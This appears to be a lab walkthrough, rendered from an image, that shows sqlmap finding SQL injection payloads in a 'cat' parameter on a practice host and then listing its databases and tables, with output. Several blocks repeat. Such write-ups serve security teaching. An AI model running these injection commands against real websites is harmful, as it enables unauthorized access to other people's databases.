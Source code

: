 ```
Parameter: cat (GET)
    Type: boolean-based blind
    Payload: cat=1 AND 2175=2175
    Type: error-based
    Payload: cat=1 AND EXTRACTVALUE(...)
    Type: time-based
    Payload: cat=1 AND SLEEP(5)
    Type: UNION
    Payload: cat=1 UNION SELECT ...
```

---

### 🏗️ Extracting Databases

sqlmap -u "http://target.thm/search?cat=1" --dbs

```
sqlmap -u "http://target.thm/search?cat=1" --dbs
```

Output:

available databases [2]:
[*] users
[*] members

```
available databases [2]:
[*] users
[*] members
```

---

### 📚 Extracting Tables from a DB

sqlmap -u "http://target.thm/search?cat=1" -D users --tables

```
sqlmap -u "http://target.thm/search?cat=1" -D users --tables
```

Output:

Database: users
+-----------+
| johnath   |
| alexas    |
| thomas    |
+-----------+

```
Database: users
+-----------+
| johnath   |
| alexas    |
| thomas    |
+-----------+
```

---